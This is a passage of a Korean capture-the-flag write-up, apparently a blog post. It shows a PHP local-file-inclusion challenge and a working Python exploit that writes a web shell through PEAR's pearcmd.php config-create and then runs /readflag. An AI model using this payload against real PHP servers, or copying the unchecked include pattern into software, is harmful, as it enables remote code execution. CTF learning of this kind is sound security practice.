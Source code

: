 플래그는 `/flag.txt`에 존재하고 해당 docker base에는 PEAR가 포함되어있다.

```php
<?php
    ini_set("session.upload_progress.enabled", "Off");
    ini_set("file_uploads", "Off");
    ini_set('display_errors', '0');

    if(isset($_GET["file"])) {
        if (preg_match("/^(file:|http:|ftp:|zlib:|data:|glob:|phar:|zip:|expect:|php:)/i", $_GET["file"])) {
            die("HAHA... 😀");
        }
        include($_GET["file"]);
    }
?>
```
{: file="index.php" }


file파라미터 값을 검증한 후 include해준다.

`upload_progress`, `file_uploads`가 막혀있어서 이 둘을 통한 Race Condition - LFI - RCE는 불가능 해 보인다.

구글링을 통해 다음 링크를 찾았다.

[PEARfection: From LFI to RCE](https://humble-raptor-f30.notion.site/PEARfection-From-LFI-to-RCE-253bb54d20014d94bfb9c98f69a552c2)

이를 토대로 페이로드를 짤 수 있다.

```py
import http.client
import re

conn = http.client.HTTPConnection("host1.dreamhack.games", 14776)

cmd = "<?die(system($_GET['cmd']))?>"
path = f"/?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/{cmd}+/tmp/sh.php"

conn.request("GET", path)
conn.getresponse().read()

conn.request("GET", '/?file=/tmp/sh.php&cmd=/readflag')
data = conn.getresponse().read().decode()
conn.close()

flag = re.findall(r'WaRP{[^}]+}', data)[0]
print(flag)
```
{: file="ex.py" }

### admin console

> Gin을 마시며 플래그를 획득하세요
